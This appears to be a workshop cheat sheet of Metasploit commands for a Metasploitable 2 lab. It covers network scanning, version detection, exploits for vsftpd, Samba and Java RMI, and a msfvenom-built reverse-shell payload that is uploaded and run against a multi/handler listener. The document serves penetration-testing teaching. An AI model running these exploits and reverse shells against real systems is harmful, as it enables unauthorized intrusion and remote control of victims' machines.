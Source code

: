 This file contains the commands showcased during the Null Humla session on `Metasploit for Pentesters` conducted on 27th May in Bhopal. Expecting contributions and improvements.



Inorder to get started with metasploit, the database needs to be setup. Metasploit uses **Postgresql** as its database
service postgresql start

This launches up the metasploit
```bash
msfconsole
```
---
In case database isn't connected even after starting the service 
```bash
msfdb init
```
this command initializes the database again with the very beginning

 Metasploit follows all the bash commands. Like nmap can be used as 
```bash
nmap -sn 192.168.1.1/24 -vv
```
but the results of the options like "hosts" is never stored in the metasploit database. In that case using db_nmap can be fruitful 

it saves all these ips to its database. It is helpful for future reference.

 -sn switch is a host scan in a subnet defined. -vv is the verbose. The number of v's can be increased in order to increase the verbosity.
```bash
db_nmap -sn 192.168.1.1/24 -vv
```
Determines the hosts
```bash
hosts
```
-A does the aggressive scan determining every single information about the host( open ports, banners, keys etc)
```bash
db_nmap -A 192.168.1.101 -vv
```
services determines the services that the available for that host
```bash
services
```
---

> Let's assume metasploitable 2 (Victim) IP to be 192.168.1.101

Multiple workspaces can be created for easy switching and comparing different results.

-a switch adds the new workspace named portscan
```bash
workspace -a portscan
```
This command switches between the workspaces
```bash
workspace portscan
```
search command searches for the keyword in all its modules
If you want to do a tcp scan then use the auxiliary written below in the command. Set the options according to the necessity.

setg (set global variable) can be used instead of set so that you won't have to set it again and again for the same victim 
machine

run is used for running the module

Here tcp portscan does the same work as that of nmap but doesnt gives the complete listings (like the name of services and their versions)
```bash
search portscan
use auxiliary/scanner/portscan/tcp
set RHOSTS 192.168.1.101
set THREADS 20
run
```
These are the metasploit modules for searching the versions of the services that are active in a victim's machine
```bash
search name:auxiliary ftp

`grep in metasploit is used  this way`
`name:auxiliary signifies that it will search only in the auxiliary modules`
grep ftp_version name:auxiliary ftp
use auxiliary/scanner/ftp/ftp_version
set...
run...
```
```bash
search name:auxiliary ssh
use auxiliary/scanner/ssh/ssh_version
setg...
run
```
```bash
search name:auxiliary telnet
use auxiliary/scanner/telnet/telnet_version
run
```

Google search port numbers - Find service running on that port - find auxiliary model for identifying version

If you can't find the service running on port, after some time it doesn't hurt to see nmap's finding

> same data
> port  21  vsftpd v 2.3.4
The vulnerabilities in the versions of the following services can be exploited by typing in following commands

search vsftpd name:exploit
use ...
set ...
run

---

> google search samba 3.x exploit

```bash
use exploit/multi/samba/usermap_script
show payloads
set payload ...
set <options>
run
```
Repeat the same for other detected versions

---

```bash
search name:exploit java rmi
use exploit/multi/misc/java_rmi_server
set payload java/meterpreter/reverse_tcp
set options
run
```
This will create a background session. *Java's version of meterpreter has less libraries*
```bash
sessions 
```
Will show a list of sessions
```bash
sessions -i <id>
```
use the meterpreter session 
```bash
sysinfo
getuid
shell
```
In another tab: Tab2
```bash
msfvenom -a x86 --platform linux -p linux/x86/meterpreter/reverse_tcp LHOST=<kali ip> LPORT=443 -f elf > evil 
```
Type below in Tab1's meterpreter session
```bash
upload evil
```
Start another msfconsole session in Tab2 and type below
```bash
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set LHOST <kali ip>
set LPORT 443
run
```
Back to Tab1
```bash
shell 
./evil
```
This will give you a proper `meterpreter`


Resources:
- [Vulnhub](https://www.vulnhub.com/)
- [HacktheBox](https://www.hackthebox.eu/)
- [Pentesters Lab](https://www.pentesterlab.com/)
- [Metasploit Unleashed](https://www.offensive-security.com/metasploit-unleashed/)
